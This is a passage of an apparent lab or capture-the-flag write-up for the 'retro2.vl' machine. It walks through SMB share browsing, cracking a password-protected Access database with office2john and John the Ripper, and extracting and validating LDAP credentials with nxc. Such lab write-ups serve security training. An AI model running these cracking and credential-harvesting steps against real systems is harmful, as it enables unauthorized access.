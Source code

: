 ```sh
  Temp                                D        0  Sat Aug 17 13:58:05 2024

		6290943 blocks of size 4096. 1328797 blocks available
smb: \> cd Temp\
smb: \Temp\> ls
  .                                   D        0  Sat Aug 17 13:58:05 2024
  ..                                  D        0  Sat Aug 17 13:58:05 2024

		6290943 blocks of size 4096. 1322876 blocks available
```

ahah !!! , we found `staff.accdb`.
```sh
$ file staff.accdb
staff.accdb: Microsoft Access Database
```

I ty to open it using some on line platforms , but it apears that it's a password protected , let try to crvk it 

```sh
$ office2john staff.accdb > hash.txt
$ john hash.txt  --wordlist=rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
class08          (staff.accdb)     
1g 0:00:00:14 DONE (2025-09-21 00:21) 0.06798g/s 313.2p/s 313.2c/s 313.2C/s giovanna..class08
Use the "--show" option to display all of the cracked passwords reliably
Session completed.          
```

We got the password , let's open it. there is some scripting lines, we found some credentials for the `ldapreader`.


```yml
strLDAP = "LDAP://OU=staff,DC=retro2,DC=vl"
strUser = "retro2\ldapreader"
strPassword = "ppYaVcB5R"
``` 

> valid credentials

```sh
$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
```

### Common vulnerabilities
